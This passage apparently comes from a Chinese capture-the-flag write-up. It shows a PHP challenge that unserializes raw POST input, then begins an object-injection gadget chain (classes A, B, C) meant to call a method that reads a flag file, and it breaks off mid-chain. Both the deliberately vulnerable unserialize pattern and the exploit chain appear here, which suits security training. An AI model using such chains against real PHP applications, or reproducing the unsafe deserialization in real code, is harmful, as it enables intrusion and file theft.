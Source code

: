 ```php
class Evil{
    function getflag() {
        echo file_get_contents('/fl4g');
    }
}


if(isset($_POST['sdpc'])) {
    unserialize($_POST['sdpc']);
} else {
    serialize(new C());
}


?>
```

这是一个反序列化漏洞，我们可以如下构造：

```php
<?php
error_reporting(0);

class A
{
    public $sdpc;

    function __construct() {
        $this->sdpc = array("sdpc" => array(new Evil(),'getflag'));
    }//注意修改$sdpc的值为一个数组 
    //array('sdpc'=>array(new Evil(),'getflag'))

    function __call($name, $arguments)
    {

        $name[$name]();
    }
}


class B
{
    public $a;

    function __construct()
    {
        $this->a = new A();
    }

    function __toString()
    {
        echo $this->a->sdpc["welcome"]; //对大家表示欢迎
    }
}

class C
{
    public $b;
    protected $c;

    function __construct()
    {
        $this->c = new A(); //注意修改为创建A类对象
    }
```